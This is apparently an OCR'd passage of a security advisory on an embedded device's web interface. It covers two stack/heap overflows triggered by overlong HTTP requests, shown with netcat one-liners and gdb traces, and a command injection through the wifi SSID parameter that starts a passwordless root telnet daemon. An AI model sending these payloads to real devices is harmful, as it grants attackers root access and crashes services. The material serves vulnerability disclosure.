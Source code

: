     python -c 'print "GET " + "A"*257 + " HTTP/1.1\nHost: foo"' | nc IP 80

    (gdb) bt
    #0  0x479d8b18 in free () from root/lib/libc.so.6
    #1  0x00135f20 in ?? ()
    (gdb) x/5i $pc
    => 0x479d8b18 <free+48>:        ldr     r3, [r0, #-4]
       0x479d8b1c <free+52>:        sub     r5, r0, #8
       0x479d8b20 <free+56>:        tst     r3, #2
       0x479d8b24 <free+60>:        bne     0x479d8bec <free+260>
       0x479d8b28 <free+64>:        tst     r3, #4
    (gdb) i r r0
    r0             0x41     65

### Obi-2. Command injection in WiFi Config

An authenticated user (including the lower-privileged "user" user) can enter a
hidden network name similar to "$(/usr/sbin/telnetd &)", which starts the telnet
daemon.

    GET /wifi?checkssid=$(/usr/sbin/telnetd%20&) HTTP/1.1
    Host: foo
    Authorization: [omitted]

Note that telnetd is now running and accessible via user "root" with no
password.

### Obi-3. Denial of Service due to buffer overflow

By providing a long URI (longer than 256 bytes) beginning with a slash, memory
is overwritten beyond the end of mapped memory, leading to a crash.  Though no
exploitable behavior was observed, it is believed that memory containing
information relevant to the request or control flow is likely overwritten in the
process.  strcpy() appears to write past the end of the stack for the current
thread, but it does not appear that there are saved link registers on the stack
for the devices under test.

    python -c 'print "GET /" + "A"*256 + " HTTP/1.1\nHost: foo"' | nc IP 80

    (gdb) bt
    #0  0x479dc440 in strcpy () from root/lib/libc.so.6
    #1  0x001361c0 in ?? ()
    Backtrace stopped: previous frame identical to this frame (corrupt stack?)
    (gdb) x/5i $pc
    => 0x479dc440 <strcpy+16>:      strb    r3, [r1, r2]
       0x479dc444 <strcpy+20>:      bne     0x479dc438 <strcpy+8>
       0x479dc448 <strcpy+24>:      bx      lr
       0x479dc44c <strcspn>:        push    {r4, r5, r6, lr}
       0x479dc450 <strcspn+4>:      ldrb    r3, [r0]
    (gdb) i r r1 r2
    r1             0xb434df01       3023363841
    r2             0xff     255
    (gdb) p/x $r1+$r2
    $1 = 0xb434e000
